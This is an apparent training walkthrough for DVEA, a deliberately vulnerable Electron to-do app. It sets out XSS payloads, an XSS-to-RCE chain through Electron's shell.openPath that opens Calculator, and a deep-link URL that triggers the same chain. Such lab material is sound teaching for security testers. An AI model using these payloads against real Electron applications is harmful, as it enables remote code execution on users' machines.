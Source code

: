Here's the brief walkthrough of security vulnerabilities in DVEA:

# Cross-site Scripting

A simple XSS payload of `<img src=1 onerror='alert("DVEA")'/>` will do perform XSS on the application when put in the to-do item section

# XSS to RCE

To perform RCE via XSS, you need to import "shell" library and execute its `openPath` function using which you can execute commands on the system

```
<a onmouseover="
try{
const  {shell}=require('electron');
shell.openPath('/System/Applications/Calculator.app/')
}catch(e){
    console.error(e)
}">Hover Me</a>
```

# Deep-link to XSS

The app is registered with a deep-link of `dvea://` which is used to add tasks to the app using deep link e.g. `dvea://task?add=Clean Your Room` which obviously can be fed with an XSS payload like `dvea://task?add=<img src=1 onerror="alert('Deep link XSS')"/>` when opened via browser.

# Deep-link to RCE

Now combining all the above attack vectors we can chain the deep link to achieve RCE using the same payload as in "XSS to RCE" when invoked via the deep link, the payload will look something like

```
dvea://task?add=<a onmouseover="try{const%20 {shell}=require('electron');shell.openPath('/System/Applications/Calculator.app/')}catch(e){console.error(e)}">Hover Me</a>
```

